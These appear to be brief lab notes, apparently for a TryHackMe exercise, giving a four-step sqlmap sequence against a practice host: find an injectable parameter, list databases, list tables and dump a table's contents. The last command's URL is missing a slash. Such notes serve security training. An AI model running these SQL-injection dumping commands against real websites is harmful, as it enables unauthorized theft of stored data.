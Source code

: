 1. find the url that har parameters:
`sqlmap -u http://sqlmaptesting.thm/search/cat=1`

2. if success; use flag: --dbs to dump databases:
`sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs`

3. use -D flag to choose db and --tables to get tables:
`sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D db_name --tables`

4. use -T flag to select table and --dump to dump info:
`sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D db_name -T table_name --dump`
